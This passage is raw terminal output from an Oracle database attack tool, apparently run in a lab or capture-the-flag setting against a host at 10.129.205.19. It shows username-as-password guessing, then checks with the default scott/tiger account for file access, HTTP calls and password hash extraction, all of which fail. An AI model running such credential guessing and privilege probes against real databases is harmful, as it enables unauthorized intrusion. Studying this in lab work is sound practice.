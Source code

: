 ```
- continue without to ask (c/C)
c
[!] Notice: 'APEX_040000' account is locked, so skipping this username for password               | ETA:  00:03:39 
[!] Notice: 'APEX_PUBLIC_USER' account is locked, so skipping this username for password          | ETA:  00:02:30 
[!] Notice: 'FLOWS_FILES' account is locked, so skipping this username for password               | ETA:  00:01:50 
[!] Notice: 'HR' account is locked, so skipping this username for password                        | ETA:  00:01:25 
[!] Notice: 'MDSYS' account is locked, so skipping this username for password                     | ETA:  00:01:07 
[!] Notice: 'XDB' account is locked, so skipping this username for password                       | ETA:  00:00:45 
[!] Notice: 'CTXSYS' account is locked, so skipping this username for password                    | ETA:  00:00:36 
[!] Notice: 'APPQOSSYS' account is locked, so skipping this username for password                 | ETA:  00:00:29 
[!] Notice: 'DBSNMP' account is locked, so skipping this username for password                    | ETA:  00:00:23 
[!] Notice: 'ORACLE_OCM' account is locked, so skipping this username for password                | ETA:  00:00:17 
[!] Notice: 'DIP' account is locked, so skipping this username for password####                   | ETA:  00:00:13 
[!] Notice: 'OUTLN' account is locked, so skipping this username for password#######              | ETA:  00:00:08 
100% |############################################################################################| Time: 00:01:01 
[-] No found a valid account on 10.129.205.19:1521/sid:XE with usernameLikePassword module

[8] (10.129.205.19:1521): Testing all authenticated modules on ServiceName:XEXDB with the scott/tiger account
[8.1] UTL_HTTP library ?
[-] KO
[8.2] HTTPURITYPE library ?
19:05:53 WARNING -: Impossible to fetch all the rows of the query select httpuritype('http://0.0.0.0/').getclob() from dual: `ORA-29273: HTTP request failed ORA-06512: at "SYS.UTL_HTTP", line 1819 ORA-24247: network access denied by access control list (ACL) ORA-06512: at "SYS.HTTPURITYPE", line 34`
[-] KO
[8.3] UTL_FILE library ?
[-] KO
[8.4] JAVA library ?
[-] KO
[8.5] DBMSADVISOR library ?
[-] KO
[8.6] DBMSSCHEDULER library ?
[-] KO
[8.7] CTXSYS library ?
[-] KO
[8.8] Hashed Oracle passwords ?
[-] KO
[8.9] Hashed Oracle passwords with a view in ORACLE_OCM?
19:05:54 WARNING -: Hashes can not be got with Oracle_OCM. This method is only valid when database is 12c or higher
[-] KO
[-] KO
[8.10] Hashed Oracle passwords from history?
[-] KO
[8.11] DBMS_XSLPROCESSOR library ?
[-] KO
[8.12] External table to read files ?
[-] KO
```